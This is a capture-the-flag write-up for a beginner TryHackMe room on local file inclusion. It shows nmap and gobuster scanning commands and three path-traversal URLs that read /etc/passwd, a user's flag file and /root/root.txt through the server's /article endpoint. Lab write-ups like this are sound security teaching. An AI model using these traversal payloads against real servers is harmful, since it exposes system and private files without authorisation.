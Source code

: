 ```yaml
---
title: "THM:inclusion"
subtitle: "TryHackMe CTF room: https://tryhackme.com/room/inclusion"
categories: [ctf, thm]
tags: [ctf,nmap,gobuster,dirbuster,lfi,local-file-inclusion]
---
```

# THM:inclusion

URL: [https://tryhackme.com/room/inclusion](https://tryhackme.com/room/inclusion) [Easy]

## Reconnaissance

Description of the room:

> This is a beginner level room designed for people who want to get familiar with Local file inclusion vulnerability.
>  
> If you have any kind of feedback please reach out to me on twitter at [0xmzfr](https://twitter.com/0xmzfr)

## Scanning

### Running: `nmap`

Ran the following:

> `nmap -sC -sV xxx.xxx.xxx.xxx`

Interesting ports found to be open:

```python
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

*Also see: [nmap.log](nmap.log)*

### Running: `gobuster`

Ran the following:
> `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://xxx.xxx.xxx.xxx`

Interesting folders found:

```python
/article              (Status: 500) [Size: 290]
```

*See also: [gobuster.log](gobuster.log)*

## Gaining Access

What we discover is there is only one folder on this server (that is `/article`) and as a `name` argument, it seems to take a file name.

So, we go back, back, back up a few directories to see if we can get the web server to print out the contents of other interesting files on the server.

### STEP 1: Find usernames

> http://10.10.110.200/article?name=../../../../etc/passwd

### STEP 2: Get unprivileged user flag

> http://10.10.110.200/article?name=../../../../home/falconfeast/user.txt

### STEP 3: Get root flag

> http://10.10.110.200/article?name=../../../../root/root.txt

By using this technique, we were able to get a value username (`falconfeast`) and read the `user.txt` file, and also step into the `/root` folder to read the `root.txt` file. The contents of those files were the two flags for this room.

## Maintaining Access

We never got direct access to this box, so no access to maintain.

## Clearing Tracks

We never had direct access. Nothing to do.

## Summary

Completed: [2022-01-19 21:50:56]